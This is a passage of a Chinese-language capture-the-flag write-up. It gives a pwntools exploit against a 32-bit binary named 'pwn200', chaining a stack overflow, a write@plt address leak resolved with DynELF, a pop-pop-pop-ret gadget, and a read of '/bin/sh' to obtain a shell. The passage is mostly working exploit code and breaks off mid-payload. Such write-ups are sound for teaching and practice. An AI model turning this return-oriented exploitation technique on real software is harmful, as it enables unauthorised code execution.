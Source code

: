```python
def leak(addr):
    payload  = "A" * 112
    payload += p32(write_plt)
    payload += p32(vuln_addr)
    payload += p32(1)
    payload += p32(addr)
    payload += p32(4)
    io.send(payload)
    data = io.recv()
    log.info("leaking: 0x%x --> %s" % (addr, (data or '').encode('hex')))
    return data

d = DynELF(leak, elf=elf)
system_addr = d.lookup('system', 'libc')
log.info("system address: 0x%x" % system_addr)
```

注意我们需要一个 pppr 的 gadget 来平衡栈：

```text
$ ropgadget --binary pwn200 --only "pop|ret"
...
0x0804856c : pop ebx ; pop edi ; pop ebp ; ret
```

得到了 system 的地址，就可以利用 read 函数读入 "/bin/sh"，从而得到 shell，完整的 exp 如下：

```python
from pwn import *

# context.log_level = 'debug'

elf = ELF('./pwn200')
io = process('./pwn200')
io.recvline()

write_plt = elf.plt['write']
write_got = elf.got['write']
read_plt = elf.plt['read']
read_got = elf.got['read']

vuln_addr = 0x08048484
start_addr = 0x080483d0
bss_addr = 0x0804a020
pppr_addr = 0x0804856c

def leak(addr):
    payload  = "A" * 112
    payload += p32(write_plt)
    payload += p32(vuln_addr)
    payload += p32(1)
    payload += p32(addr)
    payload += p32(4)
    io.send(payload)
    data = io.recv()
    log.info("leaking: 0x%x --> %s" % (addr, (data or '').encode('hex')))
    return data
d = DynELF(leak, elf=elf)
system_addr = d.lookup('system', 'libc')
log.info("system address: 0x%x" % system_addr)

payload  = "A" * 112
payload += p32(read_plt)
payload += p32(pppr_addr)
payload += p32(0)
```